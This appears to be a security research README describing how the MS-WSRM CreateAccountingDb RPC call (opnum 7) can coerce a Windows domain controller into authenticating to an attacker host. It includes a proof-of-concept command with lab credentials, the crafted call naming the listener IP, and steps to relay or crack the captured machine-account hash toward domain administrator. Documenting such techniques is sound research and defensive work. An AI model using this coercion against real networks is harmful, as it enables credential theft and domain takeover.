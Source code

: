 # MS-WSRM - Remote call to CreateAccountingDb (opnum 7)

## Summary

 - **Protocol**: [[MS-WSRM]: Windows System Resource Manager (WSRM) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f)

 - **Protocol UUID**: e8bcffac-b864-4574-b2e8-f1fb21dfdc18

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CreateAccountingDb`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/f1c48f77-986e-49b7-bbd5-717a391d99fa)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-WSRM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f) protocol (with uuid `e8bcffac-b864-4574-b2e8-f1fb21dfdc18` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-WSRM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-WSRM]: Windows System Resource Manager (WSRM) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f) and allows to call RPC functions of this protocol. We will then call the remote [`CreateAccountingDb`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/f1c48f77-986e-49b7-bbd5-717a391d99fa) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CreateAccountingDb('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
[id(1), helpstring("method CreateAccountingDb")] HRESULT CreateAccountingDb(
   [in] BSTR bstrServerName,
   [in] BOOL bWindowsAuth,
   [in] BSTR bstrUserName,
   [in] BSTR bstrPasswd
 );
```

## References

 - Documentation of protocol [MS-WSRM]: Windows System Resource Manager (WSRM) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/4ace0c0e-acea-4f74-8b60-ec47be136e7f

 - Documentation of function `CreateAccountingDb`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wsrm/f1c48f77-986e-49b7-bbd5-717a391d99fa